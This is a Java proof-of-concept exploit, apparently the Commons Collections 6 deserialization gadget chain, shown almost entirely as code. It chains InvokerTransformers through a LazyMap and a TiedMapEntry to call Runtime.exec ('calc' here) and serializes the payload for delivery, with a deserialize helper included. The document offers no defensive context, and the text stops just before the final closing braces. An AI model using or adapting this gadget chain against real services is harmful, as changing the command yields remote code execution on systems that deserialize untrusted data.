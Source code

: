 ## poc
```java
package Enterprise.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class cc6 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"feng1");
        Map hashMap = new HashMap();

        hashMap.put(tiedMapEntry,"feng2");
        byte[] bytes = serialize(hashMap);
        //unserialize(bytes);
    }
    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
```